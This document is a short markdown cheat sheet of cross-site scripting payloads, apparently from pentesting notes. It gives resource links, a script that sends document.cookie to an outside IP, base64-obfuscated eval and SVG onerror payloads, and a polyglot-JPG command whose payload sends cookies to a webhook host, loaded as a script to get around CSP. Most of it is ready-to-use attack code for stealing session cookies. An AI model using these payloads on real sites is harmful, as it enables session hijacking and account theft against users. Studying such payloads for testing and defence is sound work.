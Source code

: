# XSS
## Resources
- [Hacktricks XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
- [Pipedream (webhooks)](https://pipedream.com/)
- [CSP evasion with dangling markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)
- [Portswigger XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Injections

```html
<script>fetch("http://1.1.1.1/?cookie="+document.cookie);</script>
```
```html
<img src=x onerror='eval(atob(\"ZmV0Y2goJ3BpcGVkcmVhbS90ZXN0MScp\"))' />
```
```html
<img src="data:image/svg+xml,<svg onload=alert('XSS')></svg>">
```
```html
data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHdpZHRoPSIxMDAiIGhlaWdodD0iMTAwIj4NCiAgPGNpcmNsZSByPSIxMCIgY3g9IjEwIiBjeT0iMTAiIGZpbGw9ImdyZWVuIi8+DQogIDxpbWFnZSBocmVmPSJ4IiBvbmVycm9yPSJqYXZhc2NyaXB0OmZldGNoKCdzb21ldGhpbmcnKSIgLz4NCjwvc3ZnPg0K
```

## JPG CSP Evasion 
- [CSP evasion with JPG polyglot](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
- [XSS JPG polyglot](https://infosecwriteups.com/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a)
- [img_polygloter.py](https://github.com/s-3ntinel/imgjs_polygloter)

```bash
python img_polygloter.py jpg --height 120 --width 120 --payload 'fetch("https://webhook.xxx/c="+document.cookie);' --output payload.jpg
```
```html
<script charset="ISO-8859-1" type="text/javascript" src="/the/image/w/payload.jpg"></script>
```